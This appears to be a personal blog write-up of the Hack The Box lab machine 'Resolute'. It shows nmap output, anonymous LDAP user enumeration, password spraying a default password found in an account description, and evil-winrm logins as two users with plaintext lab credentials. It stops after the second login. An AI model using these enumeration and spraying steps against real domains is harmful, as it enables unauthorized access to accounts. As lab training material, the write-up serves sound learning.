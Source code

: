 ```yaml
---
layout: post
title:  "HTB - RESOLUTE"
date:   2025-02-05 20:52:24 +0100
categories: ["HTB Machine writeups"]
---
```

As usually starting with nmap 

```text
nmap 10.10.10.169 -sV -A -Pn   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-05 18:33 CET
Nmap scan report for 10.10.10.169
Host is up (0.060s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-02-05 17:42:23Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/5%OT=53%CT=1%CU=42741%PV=Y%DS=2%DC=T%G=Y%TM=67A3A
OS:177%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%T
OS:S=A)SEQ(SP=FF%GCD=1%ISR=105%TI=I%CI=I%II=I%SS=S%TS=A)SEQ(SP=FF%GCD=1%ISR
OS:=106%TI=RD%CI=I%II=I%TS=C)OPS(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M53CNW8NN
OS:T11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CST11)WIN(W1=2000%W2=2000%W3=200
OS:0%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53CNW8NNS%CC=Y%Q=)
OS:T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=
OS:0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T
OS:6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m00s, deviation: 4h37m09s, median: 6m59s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2025-02-05T09:42:42-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2025-02-05T17:42:41
|_  start_date: 2025-02-05T17:29:28
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   73.59 ms 10.10.14.1
2   73.68 ms 10.10.10.169

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.11 seconds
```

We have destinguished name for domain so lets see if we can get usernames 

```text
ldapsearch -H ldap://10.10.10.169 -x -b "DC=megabank,DC=local" '(ObjectClass=Person)' sAMAccountName | grep sAMAccountName
```

```
sAMAccountName: Guest
sAMAccountName: DefaultAccount
sAMAccountName: RESOLUTE$
sAMAccountName: MS02$
sAMAccountName: ryan
sAMAccountName: marko
sAMAccountName: sunita
sAMAccountName: abigail
sAMAccountName: marcus
sAMAccountName: sally
sAMAccountName: fred
sAMAccountName: angela
sAMAccountName: felicia
sAMAccountName: gustavo
sAMAccountName: ulf
sAMAccountName: stevie
sAMAccountName: claire
sAMAccountName: paulo
sAMAccountName: steve
sAMAccountName: annette
sAMAccountName: annika
sAMAccountName: per
sAMAccountName: claude
sAMAccountName: melanie
sAMAccountName: zach
sAMAccountName: simon
sAMAccountName: naoki
```

Let's enum deeper on descriptions 

```
description: Account created. Password set to Welcome123!   
```

So we have our password. But it appears to be default one, so we need to check if it fits for any usernames we already have. 

```text
netexec smb 10.10.10.169 -u logins_resolute -p 'Welcome123!'
```

```text
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Guest:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\RESOLUTE$:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\MS02$:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
```

Now we know that password fits to melanie user and we can WinRM to it.

```text
evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'
```

Once i started enumerating - this part got tricky because i couldn't find anything interesting so i used the hint from guided mode 

```text
What is the full path to the file containing history logs for a PowerShell session?
```

And for me obviously this was about:
`%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

which is default path i check during forensic investigations related to used powershell commands.
Wowever that path was not present on melanie user. Finally i found that it was related to hidden file under path

```text
C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

Not sure if this directory/file is something real or just made up as synthetic way of making it more difficult.

Upon review we can find that file contains new set of credentials for Ryan user so we can login again with another set of credentials 

```text
evil-winrm -i 10.10.10.169 -u 'ryan' -p 'Serv3r4Admin4cc123!'
```

![img-description](/assets/img/resolute_ryan.png)
_WinRM to Ryan account_


